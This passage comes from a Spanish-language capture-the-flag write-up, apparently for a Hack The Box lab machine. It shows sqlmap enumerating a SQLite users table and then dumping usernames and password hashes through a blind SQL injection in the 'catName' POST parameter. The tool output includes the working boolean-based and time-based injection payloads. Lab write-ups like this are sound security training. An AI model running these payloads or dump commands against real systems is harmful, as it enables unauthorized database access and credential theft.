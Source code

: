 ```bash
Table: users
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | VARCHAR |
| password | VARCHAR |
| user_id  | INTEGER |
| username | VARCHAR |
+----------+---------+

[02:38:11] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 592 times
[02:38:11] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 02:38:11 /2025-02-05/

```

El siguiente paso, será obtener los datos de las columnas mencionadas, para ello haremos uso de la siguiente consulta con `SQLMap`. En el resultado obtenido, comprobamos que logramos obtener diversos hashes de diferentes usuarios.

```bash
❯ sqlmap -r request -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST -T users -C username,password --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:49:52 /2025-02-05/

[02:49:52] [INFO] parsing HTTP request from 'request'
[02:49:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=GzzcooCat'||(SELECT CHAR(122,97,113,98) WHERE 6534=6534 AND 9558=9558)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=GzzcooCat'||(SELECT CHAR(104,76,97,65) WHERE 6505=6505 AND 6068=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[02:49:52] [INFO] testing SQLite
[02:49:52] [INFO] confirming SQLite
[02:49:52] [INFO] actively fingerprinting SQLite
[02:49:52] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[02:49:52] [INFO] fetching entries of column(s) 'password,username' for table 'users'
```